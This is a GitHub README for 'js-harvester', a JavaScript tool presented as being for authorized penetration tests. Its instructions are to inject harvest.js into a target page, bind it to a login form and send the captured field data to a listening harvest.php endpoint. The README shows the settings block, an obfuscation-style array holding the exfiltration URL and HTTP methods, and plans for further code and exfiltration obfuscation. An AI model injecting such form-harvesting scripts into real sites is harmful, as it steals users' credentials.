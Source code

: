 # js-harvester
A tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access. 
# installation
* Requires jQuery
* Download and host script
# usage
1. Identify target page and form to harvest data from
2. Add harvest.js to the target page
3. Update the settings in harvest.js
'''
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
'''
5. Listen. . .
# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
